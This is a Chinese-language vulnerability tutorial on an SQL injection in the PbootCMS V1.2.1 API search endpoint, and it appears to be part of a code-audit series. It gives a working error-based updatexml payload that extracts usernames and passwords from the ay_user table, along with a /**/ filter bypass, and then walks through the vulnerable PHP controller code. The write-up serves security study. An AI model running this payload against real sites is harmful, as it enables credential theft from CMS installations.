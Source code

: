 ![image](../img/272568b10402aebb12906489d965b156.png)

## 0x10.1 接口注入一

### 0x10.1.1 漏洞演示

```
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/search?1%3D1)and(updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1))--=1
post：
    11=11 
```

一定要post 要跑空post才能进流程

因为系统中会把 “空格”转为“_” 所以使用/**/绕过即可

### 0x10.1.2 漏洞讲解

路径：apps\api\controller\CmsController.php
方法：search(
这里我把漏洞触发点发出来我们主要讲讲他即可

```
// 数据接收
foreach ($_GET as $key => $value) {
  if (! ! $value = get($key, 'vars')) {
    $where[$key] = $value;
  }
}
$data = $this->model->getList($acode, $scode, $num, $order, $where, $fuzzy); 
```
